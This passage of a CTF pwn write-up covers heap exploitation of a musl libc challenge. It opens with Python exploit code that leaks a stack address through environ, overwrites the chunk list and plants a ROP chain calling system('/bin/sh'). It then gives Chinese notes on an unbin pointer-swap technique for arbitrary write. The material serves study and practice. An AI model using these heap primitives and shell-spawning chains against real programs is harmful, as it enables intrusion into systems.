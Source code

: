 ```python
			0x70: fake_chunk free
		0x40: chunk2
		0x40: chunk3
		topchunk
	'''

	# add(0x70) # 0
	add(0x70) # for chunk_list[1].size 
	
	dele(2)  # unbin 

	check_show = 0x0000000000602034
	# chunk_list[1].chunk = &chunk_list 
	edit(1, flat(environ, 0x70, chunk_list, 0x70, check_show))
	'''
	chunk_list
		0x70, environ, 
		0x70, chunk_list, 
		0x70, check_show
	'''
	edit(2, p32(0))
	# check_show = 0
	show(0)
	# show(chunk_list[0] = environ)
	stack = u64(re(6).ljust(8, b'\x00'))
	print('stack', hex(stack))

	edit(1, flat(0x70, stack - 0x70))
	'''
	chunk_list
		0x70, rop_stack, 
	'''
	poprdi = 0x14862 + libc 
	binsh  = 0x91345 + libc
	system = 0x42688 + libc
	edit(0, flat(
		poprdi, binsh, system))	


exp()
cn.interactive()

```

### leak+unbin+fake_bin+FSOP

主要是对于musl libc的利用, 复现来自[题目作者文章](https://www.anquanke.com/post/id/202253), 

#### leak

leak部分和前面一样, 但是作者提到, 堆块本身就链接在链表中, 于是可以直接`add(1)`的形式泄漏,

#### unbin

仍然是, 经典的指针互写, 

* `*(uint64_t*)(prev + 2) = next`
* `*(uint64_t*)(next + 3) = prev`

这里的思路就是攻击链表结构, 利用这个unbin操作, 修改`mal.bin[i]->head`, 然后控制bin链表,  实现任意地址写, 

